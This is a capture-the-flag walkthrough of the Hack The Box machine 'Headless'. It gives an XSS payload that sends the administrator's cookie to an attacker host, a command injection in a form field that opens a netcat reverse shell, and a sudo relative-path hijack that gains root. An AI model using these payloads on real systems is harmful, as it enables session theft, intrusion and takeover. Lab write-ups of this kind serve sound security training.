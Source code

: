 ## HTB - HEADLESS
## LINUX - EASY
## 10.10.11.8 
------------------------------------------------------------------------
### ENUM
#### NMAP
```bash
sudo nmap -v -sC -sV -oA initial --min-rate 1000 10.129.170.0
```
22 : OpenSSH 9.2p1

5000 : Werkzeug/2.2.2 Python/3.11.2
- Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```bash
echo 'InVzZXIi' | base64 -d
```
**user**

#### GOBUSTER
```bash
gobuster dir -u http://10.129.67.166:5000 -w /usr/share/wordlists/directory-list-2.3-medium.txt
```
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]

------------------------------------------------------------------------
### ACTION
#### WEBSITE
1. the webpage http://headless.htb:5000/support is a form. So we try XSS.
**RESULT** 
A message appaers that it detect the hacking tentative and data will be send to the administrator for investigation. In the message we see all infiormation that will be send to the admin.

2. Let's try to CSRF the cookie of the admin. 
3. Intercept the POST request from the support form with Burpsuite.
4. Put a payload in the "user-agent" field : 
```javascript
<script>var i=new Image(); i.src="http://10.10.14.23/?cookie="+btoa(document.cookie);</script>
```
5. Run a webserver
```bash
python3 -m http.server 80
```
6. send the evil request and wait for the connexion
**10.129.67.166 - - [27/Mar/2024 11:38:08] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200**
7. change the cookie value and go to http://headless.htb:5000/dashboard

8. Accessing the dashboard, we can choose a date and click to submit
9. Intercet the POST request with Burpsuite, we found the variable date.
10. Adding a reverse shell payload after the date : **date=2023-09-15;nc%2010.10.14.23%209100%20-e%20%2Fbin%2Fsh**
11. We have a shell.

#### REVSHELL
1. Stabilize the shell
2. Go to the home directory of the user "dvir", we found *flag.txt*
3. Upload and run Linpeas.
**FOUND**
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

131912      4 -rw-r--r--   1 root     mail          772 Sep 10  2023 /var/mail/dvir
131912      4 -rw-r--r--   1 root     mail          772 Sep 10  2023 /var/spool/mail/dvir
**MAIL FOUND**
```
Subject: Important Update: New System Check Script

Hello!

We have an important update regarding our server. In response to recent compatibility and crashing issues, we've introduced a new system check script.

What's special for you?
- You've been granted special privileges to use this script.
- It will help identify and resolve system issues more efficiently.
- It ensures that necessary updates are applied when needed.

Rest assured, this script is at your disposal and won't affect your regular use of the system.

If you have any questions or notice anything unusual, please don't hesitate to reach out to us. We're here to assist you with any concerns.

By the way, we're still waiting on you to create the database initialization script!
Best regards,
Headless
```
4. Take a look at /usr/bin/syscheck. It's a bash file.
5. the script call another script that don't exist on the target. Plus, it call the script without using the absolute path.
6. Create a script named "initdb.sh"  in the current directory with just `/bin/bash`. 
7. run the sudo command :
```bash
sudo /usr/bin/syscheck
```
8. We are root.
